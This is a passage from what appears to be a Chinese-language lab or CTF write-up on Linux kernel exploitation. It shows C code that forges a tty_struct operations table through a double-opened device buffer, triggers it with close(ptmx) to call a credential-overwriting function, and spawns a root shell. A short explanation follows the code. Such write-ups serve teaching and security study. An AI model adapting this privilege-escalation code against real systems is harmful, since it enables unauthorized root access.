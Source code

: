 最终，我们编写了如下代码，可以成功获得 root 权限！（`getOffset()`会段错误，所以暂时没有用）
```c
// ==== Task 2 ====
const u64 lookupAddr = 0xffff80001076c978;
const u64 hackCredAddr = 0xffff80001083aa84;
u64 offset = 0;
#define target(x) (x + offset)
u64 forgedOps[36];

void getOffset();
void forgeOps(int dev);

int main() {
	// Task 1:
	int dev = doubleOpen();
	int ptmx = checkMagic(dev);
	
	// Task 2:
	//getOffset();
	forgeOps(dev);
	close(ptmx);
	system("/bin/sh");
	
	return 0;
}

void getOffset() {
	u64 *ops = (void *)(*(u64 *)(buf + 24));
	DEBUG(ops, XYX_GREEN);
	
	u64 realLookupAddr = *ops;
	offset = realLookupAddr - lookupAddr;
	DEBUG(realLookupAddr, XYX_GREEN);
	DEBUG(offset, XYX_GREEN);
}

void forgeOps(int dev) {
	for (int i = 0; i < 36; i++)
		forgedOps[i] = target(hackCredAddr);
	
	char newBuf[32];
	u64 forgedOpsPtr = (u64)(&forgedOps);
	memcpy(newBuf, buf, 24);
	memcpy(newBuf + 24, &forgedOpsPtr, 8);
	
	for (int i = 0; i < 32; i += 8) {
		DEBUGI(*(u64 *)(newBuf + i), XYX_PURPLE);
	}
	
	write(dev, newBuf, 32);
}

```
![image.png](./assets/1653836823332-4ebe8109-28c0-463c-974b-f753b52b080a.png)
可以看到，上面圈圈 1 的位置打开的`ptmx`的`tty_struct`并不在我们控制的 buffer 那里，因此我们开了第二次。然后我们伪造了一个`ops`，调用`close(ptmx)`，这样就会调用到我们的`hack_cred`了！
